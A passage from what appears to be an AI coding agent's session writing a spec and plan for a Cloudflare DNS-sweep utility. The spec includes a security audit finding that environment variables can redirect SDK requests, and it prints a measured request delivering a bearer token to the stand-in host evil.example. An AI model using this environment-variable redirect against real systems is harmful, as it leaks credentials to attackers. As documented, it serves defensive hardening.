Wall-clock runtime:\n- Accounts / zones scanned / records read:\n- Zones the truncation cross-check could cover (`N of M`):\n- Any re-reads triggered, and how they resolved:\n- Entries written, of which DNS-only:\n- Entries with multiple origins (duplicate-name warnings):\n- `fqdns.json` cross-check result:\n\n## 13. Claims this spec had to correct\n\nPer `prompts/adversarial-review.md`: *\"Record the author's own corrected claims in the document,\nnot just the fixes.\"* This is where this spec's own verification failed, and what caught it.\n**Two rounds of adversarial review, 30 findings.**\n\n### Round 1\n\n| Claim as first written | Reality | Caught by |\n|---|---|---|\n| R6: \"there is deliberately no exit 1\", presented as exhaustive | Two reachable paths exited 1 with a raw traceback: `OSError` from the write and `ValueError` from `shlex.split` | Reviewer reproduced both |\n| A `main()` test \"would force a client-injection seam to exist for the test's benefit alone\" (§5.5 of the pre-review draft) | **False.** The fresh-per-test fixture already makes `monkeypatch.setattr` free; the reviewer wrote and ran the three tests in ~25 lines. Exit 130 had **zero** coverage | Reviewer wrote the tests the spec called unaffordable |\n| R2a explained the leak via `auth_headers` alone | Incomplete — `default_headers` is a second route | Reviewer read past the first mechanism |\n| The R2a test asserted `client.api_email is None` | Implementation state, not the security property | Reviewer |\n| Pagination unmentioned; explicitly out of test scope | `dns.records.list()` is a paginator; a short read writes a silently incomplete file | Reviewer |\n| R5's field set stopped at `record_id`/`proxied` | The same argument covers `ttl`/`comment`/`tags`/`settings` | Reviewer |\n| Task 1's `ruff check` \"verifies the lint gate sees the new file\" | A green check that could not go red | Reviewer |\n| Task 1 Step 2 expected a \"collection ERROR\" | Collection succeeds; 8 fixture errors | Reviewer, measured |\n| \"a record type that cannot be proxied has no `proxied` field\" | False — every response model carries it | Reviewer, measured |\n| Test counts 8 / 21 / 32 / 35 / 38 | Off by one per task | Author, after running them |\n| `Settings.model_dump()` returns `{\"flatten_cname\": True}` | Three fields. The code was right; the *assertion* was wrong | Author, running the test |\n| \"stdout is unused\" | argparse writes usage there | Reviewer |\n| R2 named the engine's \"unknown substitution\" branch | It reaches \"no match found\" (`configuration.py:98`) | Reviewer |\n| Zero-zones message blamed `DNS:Read` only | Missing `Account:Read` produces it too | Reviewer |\n\n### Round 2 — including two the author's own verification had missed\n\n| Claim | Reality | Caught by |\n|---|---|---|\n| The plan's per-task checkpoints were runnable | **They were not.** `./run-tests` gates ruff over the whole repo *before* pytest, and Task 1 declared the full import block while using only `re` — measured **10 × F401**, so Tasks 1–4 never reached their own tests. The author's round-1 evidence ran ruff only against the *finished* file, which is exactly why it missed this | Reviewer; author reproduced |\n| R2a: \"ambient values reach the wire by **two** routes… the pin closes **both**\" | **Four** routes. `$CLOUDFLARE_CUSTOM_HEADERS` overrides the pin, and `$CLOUDFLARE_BASE_URL` **sends the pinned token to an arbitrary host** — strictly worse than the defect R2a was written to fix. Reproduced by the author: `Authorization: Bearer tok-123` delivered to `evil.example` | Reviewer; author reproduced |\n| \"The §7 tests… go red if the SDK changes\" | True for R2a, **false for R3** — every pagination and error-text assertion ran against hand-built fakes. Three real-SDK tests added | Reviewer |\n| The truncation guard was correct as specified | It false-positives on a concurrent DNS edit and misdiagnoses it as \"truncated\", destroying a multi-minute run. Now one re-read distinguishes the two | Reviewer |\n| The truncation guard was complete | It covered records only; the **zone** and **account** lists paginate identically, and a short zone list omits every record in the missing zones | Reviewer |\n| §14 asked whether the guard ran, but nothing reported it | A guard whose liveness is invisible is not a guard. Coverage now printed at default verbosity | Reviewer |\n| R6's exit-120 row named stderr only | `--help >/dev/full` exits 120 too | Reviewer, measured |\n| `origins` is `fqdns.json`'s field \"unchanged in name and type\" | Same name and type, **different meaning** — `fqdns.json`'s holds every proxied record's content at a name, IP addresses included | Reviewer, against the live file |\n| §13 cited \"§5.5\" | That section no longer existed after the rewrite | Reviewer |\n| Task 6 wrote CLAUDE.md but committed only after the STOP | An operator who never approved the live run would leave the utility undocumented in git. Split into Tasks 6 and 7 | Reviewer |\n| The glossary defined the platform suffix as fact | It is a scoping assumption; `*.gotpantheon.com` is not covered | Reviewer |\n| §5 listed a `TypeError` write path | Not converted, but unreachable — now stated as unreachability with the reason | Reviewer |\n| The R2a test exported 2 ambient vars | Six exist; a regression dropping `user_service_key` from the pin would have stayed green | Reviewer |\n| Script function order | Did not match task order, so staged Tasks 3–4 failed `F821`/`F401`. Reordered; §3 now states the constraint | Author, staging each checkpoint |\n| The commit authorization and the LEDGER rule were asserted without provenance | Both now cite where they come from | Reviewer |\n\n**The pattern worth carrying forward:** both rounds' most serious findings were *unrun acceptance\ncriteria* — a criterion that was summarized rather than executed (round 1's `main()` rationale),\nand one executed only in its final state rather than at every checkpoint (round 2's F401). Running\nthe finished artifact is not the same as running the plan.\n\n## 14. Closing audit questions\n\nTo answer after implementation and the live run, not before.\n\n1. Did Cloudflare supply `total_count` on record pages? The run prints\n   `Truncation cross-check active for N of M zones` — record N/M in §12. If N was 0, the guard\n   never ran and §7's tests are the only thing holding it up.\n2. How long did the sweep take, and how many records were read? If materially slower than the\n   sibling's ~38 minutes, revisit §8.3 (server-side `type=\"CNAME\"`).\n3. Were any re-reads triggered, and did they resolve as concurrent changes or as truncation? A\n   truncation on the first real run would mean the mechanism is load-bearing sooner than expected.\n4. Did any name produce a duplicate warning? A same-zone one would mean the Cloudflare API permits\n   something R7 assumes it does not.\n5. Did the `fqdns.json` cross-check surface anything not explained by staleness?\n6. Does the downstream rewriter actually consume `ttl`/`comment`/`tags`/`settings`? If it ignores\n   them, §8.2's reasoning should be revisited before the next such file is designed.\n7. Does any custom domain still CNAME to a legacy `*.gotpantheon.com` hostname? If so, R4's\n   scoping assumption needs revisiting and this sweep under-reports.\n8. What is the rewriter's staleness policy for this file (R5)? It drives deletions and the file\n   carries no capture timestamp.\n9. Has `plugin/cloudflare/client.py`'s R2a defect been filed or fixed in the main program?\n   `$CLOUDFLARE_BASE_URL` is exploitable against it today.\n''')\n\nout = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\")\nout.write_text(\"\\n\".join(doc))\nprint(\"written:\", len(out.read_text().splitlines()), \"lines\")\nPYEOF",
  "description": "Regenerate the spec with verified code spliced in"
}
```

### ↳ Tool result

```
Exit code 1
  File "<stdin>", line 893
    stderr. The file is **regenerated in full on every run**; a run that matches nothing writes `{}`
                                                                                                  ^
SyntaxError: f-string: valid expression required before '}'
```

## Assistant

The CLAUDE.md block's `{...}` collided with the f-string. Splitting the template so only the code-splice sections are f-strings:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && ls gen_spec.py 2>/dev/null; echo \"will write generator\"",
  "description": "Check scratchpad state"
}
```

### ↳ Tool result

```
will write generator
Shell cwd was reset to /workspace
```

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/gen_tasks.py",
  "content": "\"\"\"Rebuild only the Tasks 1-5 code blocks in SPEC.md from the VERIFIED scratch files.\n\nThe prose is edited separately; this guarantees the plan's code is byte-identical to what was\nlinted, type-checked and run.\n\"\"\"\nimport pathlib\nimport re\nimport sys\n\nsys.path.insert(0, str(pathlib.Path(__file__).parent))\nfrom slices import S, T  # noqa: E402\n\nspec_path = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\")\nspec = spec_path.read_text()\n\n# The spec's python fences, in document order.  Two are prose examples (the R2a repl snippet and\n# the R2a build_client illustration); the rest alternate test-block / script-block per task.\nblocks = list(re.finditer(r\"```python\\n(.*?)```\", spec, re.S))\nprint(f\"{len(blocks)} python fences found\")\n\nreplacements = {}\nfor m in blocks:\n    body = m.group(1)\n    head = body.lstrip().splitlines()[0]\n    if head.startswith('\"\"\"Offline tests'):\n        replacements[m.span()] = T[1]\n    elif head.startswith(\"#!/usr/bin/env python\"):\n        replacements[m.span()] = S[1]\n    elif head.startswith(\"# --- Task 2\"):\n        replacements[m.span()] = T[2]\n    elif head.startswith(\"def resolve_env_marker\"):\n        replacements[m.span()] = S[2]\n    elif head.startswith(\"# --- Task 3\"):\n        replacements[m.span()] = T[3]\n    elif head.startswith(\"def plain(\"):\n        replacements[m.span()] = S[3]\n    elif head.startswith(\"# --- Task 4\"):\n        replacements[m.span()] = T[4]\n    elif head.startswith(\"def write_json_atomic\"):\n        replacements[m.span()] = S[4]\n    elif head.startswith(\"# --- Task 5\"):\n        replacements[m.span()] = T[5]\n    elif head.startswith(\"def expected_record_count\"):\n        replacements[m.span()] = S[5]\n    else:\n        print(f\"  left alone: {head[:70]}\")\n\nout = spec\nfor (start, end), new in sorted(replacements.items(), reverse=True):\n    out = out[:start] + \"```python\\n\" + new.rstrip() + \"\\n```\" + out[end:]\n\nspec_path.write_text(out)\nprint(f\"replaced {len(replacements)} code blocks\")\n"
}
```

### ↳ Tool result

```
File created successfully at: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/gen_tasks.py (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python gen_tasks.py",
  "description": "Splice verified code into the spec"
}
```

### ↳ Tool result

```
12 python fences found
  left alone: >>> Cloudflare(api_token="tok-123").api_email
  left alone: def build_client(**creds):
replaced 10 code blocks
Shell cwd was reset to /workspace
```

## Assistant

10 blocks spliced with verified code. Now the prose — writing the full document with placeholders, then substituting the verified code so there's no chance of drift:

### ⚙ Tool call: `Write`

```json
{
  "file_path": "/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/SPEC.template.md",
  "content": "# `find-platform-domains-cloudflare` — Spec & Implementation Plan\n\n> **For agentic workers:** REQUIRED SUB-SKILL: Use `superpowers:subagent-driven-development`\n> (recommended) or `superpowers:executing-plans` to implement this plan task-by-task. Steps use\n> checkbox (`- [ ]`) syntax for tracking. Dispatch every code-touching subagent as\n> **`psh-implementer`** and every reviewer as **`psh-reviewer`** (CLAUDE.md § Dispatching\n> subagents).\n>\n> **Commit authorization.** CLAUDE.md § Other/General says *\"Commit only when asked.\"* The\n> operator gave that authorization for this plan on **2026-07-30**, during the review interview,\n> answering the question *\"How should the plan handle the live production run and the per-task\n> commits?\"* with *\"STOP before live run; commits pre-authorized.\"* The `git commit` step ending\n> each task below **is** that authorization. It does not extend to branching, pushing, amending,\n> or any commit outside these tasks.\n>\n> **One structural STOP exists** — the head of **Task 7**, before anything touches production\n> Cloudflare. Tasks 1–6 are entirely offline and are not gated.\n>\n> **Lint governance.** `pyproject.toml`'s `[tool.ruff.lint]` block requires a justification\n> comment for each new `per-file-ignores` entry *\"AND a LEDGER.md entry (until the campaign\n> closes)\"*. The modularization campaign **is** closed (CLAUDE.md § How this architecture came to\n> be), so the LEDGER half no longer applies; the justification comments in Task 1 Step 5 satisfy\n> what remains. Stated here so a reader need not re-derive it.\n\n**Goal:** A standalone, deletable utility that writes every Cloudflare DNS **CNAME record whose\ntarget ends in `.pantheonsite.io`** — proxied or not, in every zone of every account the\ncredentials can see — to `./platform-domains-cloudflare.json`, regenerated in full on every run.\n\n**Architecture:** One executable script at the repo root, `find-platform-domains-cloudflare`,\nimporting nothing from `psh/`, `check/`, `plugin/`, or `script_context`. It re-implements (by\ncopying, not importing) the three things it needs from the main program: the `[Cloudflare]`\ncredential read, the account → zone → DNS-record walk from `plugin/cloudflare/fqdns.py`, and that\nmodule's atomic JSON write. Deletion after Pantheon's CDN migration is `git rm` of the script, its\n`.py` symlink and its test file, plus five one-line tooling entries (§11).\n\n**Tech Stack:** Python 3.12+, the `cloudflare` SDK (already declared under this project's\n`cloudflare` extra), `tomllib`, `argparse`. No new dependencies. Tests: pytest, `unit` tier,\nfully offline, 55 tests.\n\n## Global Constraints\n\n- **Standalone.** The script imports nothing from `psh/`, `check/`, `plugin/`, or\n  `script_context`. Copied code lives *in* the script, not in a shared module — deletion must stay\n  a `git rm`.\n- **Temporary.** Delete after Pantheon completes the Fastly → Pantheon-Cloudflare CDN migration.\n  Every file the script touches carries a comment saying so and pointing at §11.\n- **Output path:** `./platform-domains-cloudflare.json`, a module-level constant. No `--output`\n  flag.\n- **Platform suffix:** `.pantheonsite.io` (with the leading dot), a module-level constant. See R4\n  for the scoping assumption that carries.\n- **Always regenerate.** No existence check, no staleness check, no load-existing path. Every run\n  writes the file, including a run that matched nothing (which writes `{}`).\n- **Efficiency is explicitly not a goal** (PROMPT). Prefer the simplest correct code at every fork.\n- **Measured SDK baseline: `cloudflare` 5.4.0.** Behaviors this spec relies on (R2a's four leak\n  routes, R3's pagination and `total_count`) are SDK-internal and were measured, not assumed.\n  `pyproject.toml` declares the dependency **unpinned**, so an SDK upgrade is the one external\n  change that can invalidate them. §7 therefore includes tests that touch the **real** SDK\n  classes, not only the fakes — see §8.10.\n- **The lint and type gates apply at every checkpoint, not just at the end.** `./run-tests` runs\n  ruff over the whole repo and then pyright, and **gates on both before pytest runs at all**\n  (`run-tests`: *\"Lint AND type-check BEFORE pytest, and gate on them -- in --fast and full\n  alike\"*). Every task below therefore introduces only the imports its own code uses, and the\n  script's function order matches task order (§3); a task that imported ahead would fail `F401`,\n  and one that defined ahead would fail `F821`, and in both cases would never reach its own tests.\n  Measured: all five checkpoints lint clean.\n- **House style:** 4-space indent, `\"\"\"docstrings\"\"\"` explaining *why*, `# --` comment banners,\n  `allow_abbrev=False` on the parser.\n\n## Requirement vocabulary\n\n- **MUST** / **MUST NOT** / **NEVER** — a violation is a defect; the implementation is wrong.\n- **SHOULD** — do it unless there is a stated reason not to, recorded in the code.\n- **MAY** — genuinely optional.\n\n**NEVER-block (tests are load-bearing):** a test in §7 **MUST NOT** be deleted, skipped,\n`xfail`ed, or weakened to make a change pass. If a test goes red, the change is wrong until proven\notherwise. **NEVER** refresh an assertion to match new output without first establishing that the\nnew output is correct. **NEVER** print an API response body, at any verbosity, and never include\none in an error message (R6, §6).\n\n## Glossary\n\n| Term | Meaning in this document |\n|---|---|\n| **platform domain** | A Pantheon-provided hostname ending in `.pantheonsite.io`. R4 states the scoping assumption this carries. |\n| **custom domain** | A hostname an institution owns that points at a platform domain. |\n| **entry** | One key/value pair in the output file: an FQDN mapped to eight fields (R5). |\n| **origin** | The raw `content` of a matching CNAME record. **Same name and type as `fqdns.json`'s field, narrower meaning** — see R5a. |\n| **fold** | `collect_entries`, the pure function turning `(zone_id, record)` pairs into entries + warnings. |\n| **marker** | A `<{ … }` config substitution. The trailing `>` seen in sample config is decorative and not part of the syntax. |\n| **the walk** | `fetch_platform_cnames`: accounts → zones → DNS records. |\n| **truncation** | A paginated list that silently returns fewer items than exist. R3's cross-check exists for exactly this. |\n| **concurrent change** | An item added or removed *during* the sweep, making counts disagree for a benign reason. R3's single re-read distinguishes it from truncation. |\n| **DNS-only** | A record with `proxied: false`. Invisible to `fqdns.json`, which is built with `proxied=True`. |\n| **the sibling** | `find-platform-domains-dns`, the public-DNS counterpart utility. |\n\n---\n\n## 1. What this is and why\n\nPart of the Pantheon CDN migration. Custom domains that still reach Pantheon's legacy CDN must be\nrewritten to Pantheon's new records. The sibling utility `find-platform-domains-dns` finds them\nfrom **public DNS**. That is blind to a **Cloudflare-proxied** record, whose CNAME target is\ninvisible outside Cloudflare — and `fqdns.json`, the main program's Cloudflare data source, is\nbuilt with `proxied=True` and so is blind to every **DNS-only** record.\n\nThis script closes the second gap: it inspects **all** records in **all** zones and reports the\nCNAMEs pointing at a Pantheon platform domain, whatever their proxy status.\n\nIts output is the input to the record-rewrite work described in `research.md` in this folder.\n\n## 2. Normative behavior\n\n### 2.0 — The pipeline (PD#8)\n\n```\n argv ──▶ build_arg_parser ──▶ options{config, verbose}\n                                    │\n                                    ▼\n                     cloudflare_client(config_path)                    ERROR FUNNEL\n                     ├─ tomllib.load ──────── OSError / TOMLDecodeError ────┐\n                     ├─ [Cloudflare] present? ─ missing ────────────────────┤\n                     ├─ value(key) ─────────── non-str ─────────────────────┤\n                     │    └─ resolve_config_value                           │\n                     │         └─ resolve_env_marker ─ unset / unbalanced ──┤\n                     │                                 / non-env form       │\n                     └─ build_client   pins 4 credential fields             │\n                                     + pins base_url                        │\n                                     + clears _custom_headers   (R2a)       │\n                                    │                                       │\n                                    ▼                                       │\n                     fetch_platform_cnames(client)                          │\n                     ├─ read_all(accounts) ───┐                             │\n                     ├─ read_all(zones/acct) ─┼─ CloudflareError ───────────┤\n                     ├─ zero zones ───────────┴─────────────────────────────┤\n                     │                                                      │\n                     │  ┌─ per zone ────────────────────────────────────┐   │\n                     │  │  read_all(records)                            │   │\n                     │  │    walk every page ──▶ items, total_count     │   │\n                     │  │    counts match ─────▶ (items, checked=True)  │   │\n                     │  │    no total_count ───▶ (items, checked=False) │   │\n                     │  │    mismatch ─────────▶ RE-READ once           │   │\n                     │  │        self-consistent ▶ concurrent change,   │   │\n                     │  │                          keep the re-read     │   │\n                     │  │        still off ────── truncated ────────────┼───┤\n                     │  └───────────────────┬───────────────────────────┘   │\n                     │                      ▼                               │\n                     └──────────▶ collect_entries(pairs)                    │\n                                  │ CNAME? platform target?                 │\n                                  │ first-record-wins; origins accumulate   │\n                                  ▼                                         │\n                        SweepResult(entries, warnings, accounts,            │\n                                    zones, records, zones_checked)          │\n                                  │                                         │\n             warnings ──▶ stderr ◀┤                                         │\n                                  ▼                                         │\n                      write_json_atomic(OUTPUT_FILE)                        │\n                          └── OSError ────────────────────────────────────  ┤\n                                  │                                         │\n             summary + coverage ──┤                                         │\n             zero-match ATTENTION ┤                                         ▼\n                                  ▼                                  StartupError\n                              exit 0                                        │\n                                                                            ▼\n             KeyboardInterrupt ────────────────────▶ exit 130            exit 2\n```\n\nEverything on the ERROR FUNNEL becomes a `StartupError`, is printed as one `ERROR:` line, and\nexits **2**. Nothing on it reaches exit 1 — see R6.\n\n### R1 — CLI\n\n```\nfind-platform-domains-cloudflare [-c CONFIG] [-v]\n```\n\n| Flag | Default | Meaning |\n|---|---|---|\n| `-c`, `--config` | `pantheon-sitehealth-emails.toml` | TOML file to read `[Cloudflare]` credentials from |\n| `-v`, `--verbose` | off | per-zone progress with record counts, and any re-read notices, on stderr |\n\n`allow_abbrev=False` (house rule). There are no positional arguments. Verbosity is deliberately a\n**boolean**, not the main program's counted `-v/-vv/-vvv` — see §8.9.\n\n### R2 — Credentials\n\nRead the `[Cloudflare]` table from the TOML with `tomllib`, then resolve `<{...}` substitution\nmarkers in the string values with a **copied mini-resolver** supporting exactly the `env` and\n`secret env` forms, each with an optional trailing default:\n\n```\n<{env NAME}          <{env NAME DEFAULT}\n<{secret env NAME}   <{secret env NAME DEFAULT}\n```\n\n- Marker syntax is `<{` … `}`. The recognizing regex is copied verbatim from\n  `psh/configuration.py:110`.\n- Markers are substituted **inside** a value (`re.sub`), so `\"prefix<{env X}suffix\"` works,\n  matching `process_config()`.\n- Each credential value **MUST** be type-checked as a `str` *where it is read*. TOML is a typed\n  format, so `api_token = true` is a `bool`, which `if api_token:` accepts and the SDK stringifies\n  into `Authorization: Bearer True` — the same confusing 401 the marker rule below exists to\n  prevent, so the rule **MUST** apply to both input shapes. *(Same defect class as the sibling\n  spec's whole-branch review finding C1, applied here before it could ship.)*\n- A **non-`env`** substitution (e.g. `<{secret aws …}`) is a `StartupError` naming the config key.\n  It is **not** silently passed through: a literal marker sent as an API token would produce a\n  confusing 401.\n- An **unbalanced quote** in a marker (`<{env FOO don't}`) makes `shlex` raise `ValueError`, which\n  **MUST** be converted to a `StartupError`. Left alone it escapes as a raw traceback at exit 1 —\n  a code R6 does not use.\n- An unset env var with no default is a `StartupError` naming the variable.\n- A non-string value passes through `resolve_config_value` untouched; only `str` values are\n  scanned. (After the type check above, only `None` ever reaches it.)\n\n**Deliberate divergence from the main engine, documented in the script:** the marker body is\ntokenized with `shlex.split()` (whitespace-splitting) rather than the engine's\n`list(shlex.shlex(expr, posix=True))`, which also splits on punctuation — turning\n`<{env FOO some-default}` into five tokens, which the engine then scores 3 of 5 and reports as\n*\"no match found for configuration file value\"* (`configuration.py:98`, **not** the \"unknown\nsubstitution\" branch). The two agree on every marker the main program can actually resolve.\n\n`api_token` wins when present and truthy; otherwise both `email` and `api_key` are required.\n`enabled` is **not consulted** — the operator ran this script deliberately, and refusing because a\nflag aimed at the main program is `false` would be a surprise.\n\n### R2a — Pinning the client against the ambient environment (load-bearing; corrected twice)\n\nThe `cloudflare` SDK back-fills any credential argument left as `None` from the environment. It\nreads **six** variables, and ambient values reach the wire by **four** routes:\n\n| # | Route | What it does | Closed by |\n|---|---|---|---|\n| 1 | `auth_headers` (`_client.py:1127`) | returns the **first** of email → key → token → user_service_key, and only that one — so an ambient `CLOUDFLARE_EMAIL` beats a configured token | nulling the unsupplied fields |\n| 2 | `default_headers` (`_client.py:1168`) | *separately* adds `X-Auth-Email`/`X-Auth-Key` whenever those attributes are not `None` | nulling the unsupplied fields |\n| 3 | `$CLOUDFLARE_CUSTOM_HEADERS` | merged **last** into `default_headers`, overriding 1 and 2 | `client._custom_headers = {}` |\n| 4 | `$CLOUDFLARE_BASE_URL` | redirects every request — **sends the configured credential to an arbitrary host** | `base_url=API_BASE_URL` |\n\nMeasured on cloudflare 5.4.0. With the credential-field pinning alone (routes 3 and 4 open):\n\n```\nURL     : https://evil.example/v4/zones\nheaders : {'authorization': 'Bearer tok-123',\n           'x-auth-email': 'attacker@evil.example', 'x-auth-key': 'evil-key'}\n```\n\nWith all four closed:\n\n```\nURL     : https://api.cloudflare.com/client/v4/zones\nauth hdr: {'authorization': 'Bearer tok-123'}\n```\n\n**Route 4 is strictly worse than the defect this function was originally written for**: the\ncredential *leaves the machine* rather than merely failing to authenticate. Routes 3 and 4 were\nmissed on the first pass and found in round 2 of review (§13).\n\nThe test **MUST** assert the *security property* — the URL and headers of the request the SDK\nwould actually send, with **all six** ambient variables exported — not the attribute state that\nimplements it. An SDK that captured credentials at construction would leave attribute assertions\ngreen and the defect live.\n\n> **Out of scope, report to the operator:** `plugin/cloudflare/client.py`'s `build_client()` has\n> **all four** routes open — `Cloudflare(api_token=api_token)` with no pinning of any kind.\n> Routes 1–2 are not live today only because U-M's config leaves `api_token` commented out and\n> passes `api_email` + `api_key` explicitly, which happens to win route 1. **Route 4 is\n> exploitable against the main program today**, regardless of which credential form is\n> configured. Fixing it is a separate change with its own test surface (§8.7).\n\n### R3 — The walk, and the truncation guard\n\n`client.accounts.list()` → per account `client.zones.list(account={\"id\": account.id})` → per zone\n`client.dns.records.list(zone_id=zone.id)`.\n\n- **No `proxied=` filter and no `type=` filter.** Every record in every zone is fetched and\n  inspected; the CNAME and suffix tests happen in this script. This is literally what \"consider\n  all DNS records in all Cloudflare zones\" asks for, and per the PROMPT no work goes into making\n  it faster. (If a run becomes painful, `type=\"CNAME\"` on the records list call is the one-word\n  change — §8.3.)\n- **All three endpoints paginate**, all returning `SyncV4PagePaginationArray`. Verified against\n  the installed SDK: `next_page_info` asks for `page = last + 1` (`pagination.py:104`),\n  `has_next_page` stops when a page comes back empty (`_base_client.py:186`), and\n  `BaseSyncPage.__iter__` walks **every** page (`_base_client.py:256`). This is page-number\n  pagination, **not** the opaque-cursor shape that produced the Pantheon API's silent \"returns\n  page 1 again\" bug (CLAUDE.md records that one), so the SDK's own loop is trusted to terminate.\n- **All three are cross-checked (MUST)** by `read_all` against Cloudflare's own `total_count`.\n  `V4PagePaginationArrayResultInfo` declares only `page`/`per_page`, but its `model_config` is\n  `extra=\"allow\"`, so `total_count` survives as `model_extra` (verified). Guarding records alone\n  would be incoherent: a short **zone** list silently omits every record in the missing zones —\n  strictly worse than a short record list — and the zero-zones rule below only catches the\n  degenerate case.\n- **A mismatch triggers exactly one re-read, then decides.** `total_count` is computed for the\n  *first* page, so an item added or removed between that page and the last makes the counts\n  disagree for an entirely benign reason — likely across a sweep measured in tens of minutes at an\n  institution that actively manages this DNS. A second read that agrees with **its own**\n  `total_count` is a concurrent change and is the answer kept; a second disagreement is truncation\n  and is **fatal**, with **no file written**. Conflating the two would misdiagnose the common case\n  and send the operator hunting an API bug.\n- **When `total_count` is absent the check no-ops** rather than guessing, so it can never abort a\n  healthy sweep. `read_all` returns whether it was live and `main()` reports the coverage: a guard\n  that silently never ran looks exactly like one that ran and found nothing wrong (§6).\n- Any `cloudflare.CloudflareError` → `StartupError` (exit 2), rendered by `api_error_text`, which\n  **NEVER** includes the response body (R6).\n- **Zero zones is fatal** (copied from `fqdns.py`): with the scope missing, \"no zones\" and \"no\n  matching records\" produce an identical empty file. The message names **both** `Account:Read`\n  and `DNS:Read` — an accounts list that comes back empty yields zero zones just as a missing\n  `DNS:Read` does.\n- Zero matching CNAMEs is **not** fatal — it writes `{}` and says so loudly on stderr.\n- Records are read **one zone at a time** rather than one record at a time: a re-read must be able\n  to replace a whole zone's list, and the largest single zone is trivial memory next to the whole\n  organization's records.\n\n### R4 — The match\n\nA record is kept when **both** hold:\n\n1. `record.type == \"CNAME\"`, and\n2. `normalize(record.content).endswith(\".pantheonsite.io\")`\n\nwhere `normalize` is copied verbatim from the sibling: lowercase, strip whitespace, strip the\ntrailing root dot. Proxy status is **irrelevant to the match** — that is the entire point of this\nscript versus `fqdns.json`.\n\n**Scoping assumption, stated as one:** `.pantheonsite.io` is the *only* platform suffix matched,\nper PROMPT line 7. Pantheon's legacy `*.gotpantheon.com` hostnames are **not** covered, and grep\nfinds no occurrence of that domain anywhere in this repo. If any custom domain still CNAMEs there,\nthis sweep reports a clean result for it — §14 Q7.\n\nConsequences pinned in tests: `notpantheonsite.io` does not match (the leading dot in the constant\nis what rejects it); the bare apex `pantheonsite.io` does not match; an **A** record whose content\nreads as a platform domain does not match; a **DNS-only** CNAME **does** match.\n\n### R5 — Output format\n\n`./platform-domains-cloudflare.json`, a JSON object keyed by the **normalized** FQDN, `indent=4`,\n`sort_keys=True`, trailing newline — the same serialization `write_fqdns_atomic` uses.\n\n```json\n{\n    \"example1.cdn-dev.it.umich.edu\": {\n        \"comment\": \"migrated 2026-07\",\n        \"origins\": [\n            \"live-umich-example1.pantheonsite.io\"\n        ],\n        \"proxied\": true,\n        \"record_id\": \"9f0e1b2c3d4e5f60718293a4b5c6d7e8\",\n        \"settings\": {\n            \"flatten_cname\": false,\n            \"ipv4_only\": null,\n            \"ipv6_only\": null\n        },\n        \"tags\": [],\n        \"ttl\": 1,\n        \"zone_id\": \"abc123def456\"\n    }\n}\n```\n\n- `record_id`, `proxied`, `ttl`, `comment`, `tags`, `settings` exist because `research.md` shows\n  the downstream batch rewrite needs the record id for `deletes` and `proxied` on re-creation, and\n  its **reverse** direction hardcodes `\"ttl\": 1` and would otherwise silently discard an explicit\n  TTL, operator comments, tags, and `settings.flatten_cname`.\n- **`settings` MUST be `.model_dump(mode=\"json\")`ed.** It is a pydantic model\n  (`cloudflare.types.dns.cname_record.Settings`); `json.dump` cannot serialize one. Verified: an\n  un-dumped entry raises `TypeError` at write time — after the whole walk.\n- **First-record-wins** for every scalar; `origins` accumulates, so a name matching more than once\n  stays visible in the file and not only in the warning.\n- `origins` entries are the **raw** `record.content` as Cloudflare returned it — the raw string is\n  what a rewriter compares against.\n- **Freshness is the file's mtime and nothing else.** The file drives a *destructive* rewrite\n  (`deletes` in `research.md`), and a record can be edited between generation and the batch. The\n  file carries no capture timestamp or version, so the rule is: **regenerate immediately before\n  any rewrite**, and never feed a rewriter a file you did not just produce. §14 Q8 asks the\n  rewriter to state its own staleness policy.\n\n### R5a — Divergences from the PROMPT, stated as divergences\n\nPROMPT.md line 8 asks for *\"the same fields/stucture as `./fqdns.json`\"*. Three deliberate\ndepartures, all approved by the operator during review on 2026-07-30:\n\n| Departure | Why | Consequence to respect |\n|---|---|---|\n| Six extra value fields | Without them the rewrite must re-list every zone, and its reverse direction loses TTL / comment / tags / flatten_cname | Task 7 Step 2's key-set assertion pins the full set |\n| Keys are `normalize()`d; `fqdns.py` keys by the **raw** `record.name` | Case and trailing-dot stability | Any comparison against `fqdns.json` keys **must normalize both sides** — Task 7 Step 3 does, and would otherwise report phantom \"missing\" entries |\n| `origins` keeps the same name and type but has a **narrower meaning** | `fqdns.py:114-120` collects the content of **every proxied record of any type** at a name — the live `fqdns.json` shows IP addresses in `origins`. This file's holds only matching platform-CNAME targets | A consumer reading both files with one code path will be wrong; the CLAUDE.md subsection says so too |\n\n### R6 — Exit codes and streams\n\n| Code | Meaning |\n|---|---|\n| 0 | the output file was written (including an empty `{}`) |\n| 2 | could not complete: config unreadable / not TOML, no `[Cloudflare]` section, a non-`str` credential, an unresolvable / malformed / unsupported substitution, missing credentials, any `cloudflare.CloudflareError`, zero zones, **a truncated list (accounts, zones, or records) confirmed by a re-read**, or an `OSError` writing the output file |\n| 130 | interrupted (`KeyboardInterrupt`) |\n| 120 | **not produced by this program.** The interpreter's shutdown flush of a doomed **stdout** (argparse's usage / `--help`) *or* **stderr** exits 120 over the return value. Measured. Accepted and not guarded — §8.4. Listed so the table is exhaustive. |\n\nThere is deliberately **no exit 1**. The sibling reserves 1 for \"completed with indeterminates\"\nbecause a DNS lookup can be indeterminate; a Cloudflare list call either returns or raises, so\nthis script has no partial-answer state. **Holding that line takes explicit work**, and two\nmeasured paths escaped it in the first draft: an `OSError` from the write (landing *after* the\nwhole multi-minute walk) and a `ValueError` from `shlex.split` on an unbalanced quote. Both are\nnow named conversions to `StartupError`, both tested (§13).\n\n**stdout carries only argparse's usage / `--help` text.** All operator output — warnings, `-v`\nlines, the summary, errors — goes to stderr; the *result* is the file. The sibling's doomed-stream\ndetach guards are **not** copied (§8.4).\n\n**NEVER print an API 